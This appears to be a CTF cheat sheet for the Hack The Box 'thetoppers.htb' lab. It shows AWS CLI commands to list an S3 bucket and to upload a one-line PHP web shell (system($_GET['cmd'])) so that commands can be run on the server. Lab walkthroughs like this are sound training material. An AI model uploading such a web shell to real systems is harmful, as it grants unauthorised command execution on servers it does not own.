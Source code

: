 - [aws bucket list](#awsbl)
- [aws reverse shell](#awsrs)

## aws bucket list <a name="awsbl"></a>

The `aws bucket list` command is used to list the contents of the buckets found within a subdomain hosted on AWS. It is useful for finding files such as `index.php`, etc.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `ls`: Lists the directory.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
````

## aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````
